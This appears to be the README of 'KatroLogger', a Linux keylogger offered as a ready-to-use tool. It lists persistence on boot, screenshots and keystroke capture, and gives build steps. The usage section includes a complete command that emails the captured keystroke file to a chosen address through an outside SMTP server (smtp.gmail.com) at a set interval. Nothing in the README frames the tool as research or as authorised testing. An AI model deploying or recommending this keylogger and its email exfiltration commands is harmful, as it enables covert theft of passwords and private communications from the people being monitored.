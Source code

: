 <p align="center">
  <a href="https://github.com/Katrovisch/KatroLogger">
    <img src="https://github.com/Katrovisch/KatroLogger/blob/master/static/img/logo.png">
  </a>
</p>

---

<h3 align="center"><code>KeyLogger for Linux Systems</code></h3>

### Features
  - Runs on GUI systems or CLI
  - Sending data by email
  - Autorun on boot
  - Screenshots

### Dependencies
- [libcurl](https://curl.se/libcurl/)
- [Cairo graphics library](https://www.cairographics.org/)
- [libquickmail](https://sourceforge.net/projects/libquickmail/)

Install libquickmail:
```Shell
wget https://ufpr.dl.sourceforge.net/project/libquickmail/libquickmail-0.1.29.tar.xz
```
```Shell
tar -xvf libquickmail-0.1.29.tar.xz
```
```Shell
./autogen.sh && ./configure && make && make install
```

### Install

```Shell
./configure && make && make install
```

### Usage

```Shell
katrologger --output /path/file
```
### Send data by e-mail

| Argument | Description | 
|---|---|
| --smtp-status | email sending status |
| --smtp-url | SMTP server |
| --smtps-url | SMTPS server |
| --port | SMTP port|
| --mail-from | source email |
| --pass | password email |
| --mail-rcpt | receipt email |
| --smtp-file | attach key capture file for sending |
| --update | update interval for sending email, 1-60 (minutes) |
| --screen | screenshots (:0 is display default) |


```Shell
katrologger --smtps-url smtp.gmail.com --port 465 --mail-from <address> --mail-rcpt <address> --pass <password> --smtp-file /path/keyscan --time 10
```

### Uninstall
```Shell
make uninstall
```

### License

KatroLogger is licensed under the [GNU General Public License v3.0](https://github.com/Katrovisch/KatroLogger/blob/master/LICENSE)
